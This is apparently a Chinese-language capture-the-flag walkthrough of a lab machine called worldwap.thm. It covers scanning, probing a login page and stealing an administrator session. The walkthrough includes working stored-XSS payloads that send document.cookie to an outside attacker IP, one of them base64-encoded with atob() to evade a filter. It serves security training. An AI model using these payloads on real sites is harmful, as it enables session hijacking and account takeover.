

begin our exploitation



根据需求将ip域名加入到hosts文件

```
echo "10.10.55.84  worldwap.thm" >> /etc/hosts
```



直接访问有80服务

我们先端口和目录扫描一下



开启了三个端口

在目录扫描的时候，我们发现了一个注册接口，我们根据命令成功发现了同目录的login.php,可以试试任意用户注册和弱口令及sql注入尝试






根据目录扫描，我们发现了phpmyadmin


也是可以进行攻击

接下来我们对public目录进行二次探测



目录有问题，我们可以看到所有文件

目录扫描http://worldwap.thm/public/html/



###### 8081端口





8081也有一个phpmyadmmin

开始渗透

首先对登录接口进行攻击，弱口令试探，加sql注入

sql注入无功而返，我们尝试注册



但是发现注册后，无法登录，似乎没有权限，ps:(似乎需要有人去审核？我们尝试将参数变成xss语句)

<script>location.href="http://10.8.137.162/cookie.php?cookie="+document.cookie</script>



对username有长度限制不知道可不可以





令人惊喜的是，我们真的拿到了管理员的cookie！！！！！！！



我们更改cookie，他提示我们需要一个其他的域名，我们将其加入hosts文件

```
echo "10.10.55.84  login.worldwap.thm" >> /etc/hosts
```

我注册了用户，然后访问这个，登录还是失效，不知道为什么，于是我们带着cookie去访问，可以发现跳转到了管理员页面



现在我们带有权限了，我们带着cookie去进行扫描









在这里我们呢看到了admin机器人，猜测这里可能是突破点

服务器会将 URL 转换为超文本引用，从而破坏我们的有效载荷。我们可以尝试将 URL 字符串用 base64 编码，并在用户执行有效载荷后利用 JavaScript 的 atob() 方法对其进行解码




<script>location.href=atob('aHR0cDovLzEwLjguMTM3LjE2Mi9jLnBocD9jb29raWU9')+document.cookie</script>


成功拿到了管理员面板，拿到了cookie

